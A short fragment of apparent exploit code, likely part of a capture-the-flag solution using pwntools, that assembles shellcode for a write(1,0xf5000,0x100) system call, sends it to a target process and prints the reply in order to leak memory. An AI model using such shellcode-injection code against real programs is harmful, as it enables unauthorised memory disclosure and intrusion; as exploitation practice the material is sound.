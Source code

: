 ```

# write(1,0xf5000,0x100)

shell+=mov_reg_value(1,1)
shell+=mov_reg_value(0,2)
shell+=sys_call()

p.sendline(shell)

print p.recvline()

```

